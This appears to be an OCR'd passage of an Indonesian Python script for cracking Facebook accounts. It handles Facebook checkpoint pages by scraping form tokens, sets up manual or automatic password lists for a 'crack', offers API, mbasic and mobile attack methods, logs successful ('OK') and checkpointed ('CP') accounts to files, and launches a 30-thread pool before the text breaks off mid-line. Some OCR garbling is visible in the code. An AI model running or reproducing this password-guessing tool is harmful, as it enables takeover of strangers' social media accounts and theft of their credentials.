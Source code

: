 			num += 1
			print("   "+str(num)+" "+_[0][0]+", "+_[0][1])
	elif "checkpoint" in ses.cookies:
		form = run.find("form")
		dtsg = form.find("raw_input",{"name":"fb_dtsg"})["value"]
		jzst = form.find("raw_input",{"name":"jazoest"})["value"]
		nh   = form.find("raw_input",{"name":"nh"})["value"]
		dataD = {"fb_dtsg": dtsg,"fb_dtsg": dtsg,"jazoest": jzst,"jazoest": jzst,"checkpoint_data":"","submit[Continue]":"Lanjutkan","nh": nh}
		xnxx = parser(ses.post(mb+form["action"], data=dataD).text, "html.parser")
		ngew = [yy.text for yy in xnxx.find_all("option")]
		if "Lihat detail login yang ditampilkan. Ini Anda?" in str(xnxx):
			print("\r  🌟 %sTinggal 1 langkah lagi untuk membuka akun facebook. silahkan buka di browser%s"%(H,N))
		else:
			print(" [+] terdapat "+str(len(ngew))+" opsi ")
			for opt in range(len(ngew)):
				print("  ["+str(opt+1)+"] "+ngew[opt])
	elif "login_error" in str(run):
		oh = run.find("div",{"id":"login_error"}).find("div").text
		print(" [!] %s"%(oh))
	else:
		print(" [!] login gagal, silahkan cek kembali id dan kata sandi")

### LAPOR BUG SCRIPT ###
def laporbug():
	asulo = input("\n [?] masukan laporan bug script : ").replace(' ','%20')
	if asulo == "":
		menu()
	os.system('xdg-open https://wa.me/6282329761867?text=' +asulo)
	input("\n [*] tekan enter untuk kembali ke menu")
	menu()
### BAGIAN SANDI ####
def atursandi():
	ask=raw_input(" [?] apakah anda ingin menggunakan sandi manual? [Y/t]:")
	if ask=="y":
		sandimanual()
	elif ask=="t":
		sandiotomatis()
	else:
		exit(" %s[!] pilih jawaban dengan benar!"%(M))

def sandimanual():
	print("\n [!] gunakan , (koma) untuk pemisah contoh : sandi123,sandi12345,dll. setiap kata minimal 6 karakter atau lebih")
	pwek=raw_input('\n [?] masukan kata sandi : ')
	print(' [*] crack dengan sandi -> [ %s%s%s ]' % (M, pwek, N))
	if pwek=="":
		exit(" %s[!] isi jawaban dengan benar!"%(M))
	elif len(pwek)<=5:
		exit(" %s[!] masukan sandi minimal 6 angka!"%(M))
	print("\n [ pilih method version - silahkan coba satu² ]\n")
	print(" [1]. method API (fast)")
	print(" [2]. method mbasic (slow)")
	print(" [3]. method mobile (super slow)")
	ask=raw_input("\n [?] method : ")
	if ask=="":
		exit(" %s[!] isi jawaban dengan benar!"%(M))
	elif ask=="1":
		print('\n [+] hasil OK disimpan ke -> OK/%s.txt' % (tanggal))
		print(' [+] hasil CP disimpan ke -> CP/%s.txt' % (tanggal))
		print('\n [!] anda bisa mematikan data selular untuk menjeda proses crack\n')
		with ThreadPoolExecutor(max_workers=30) as fall: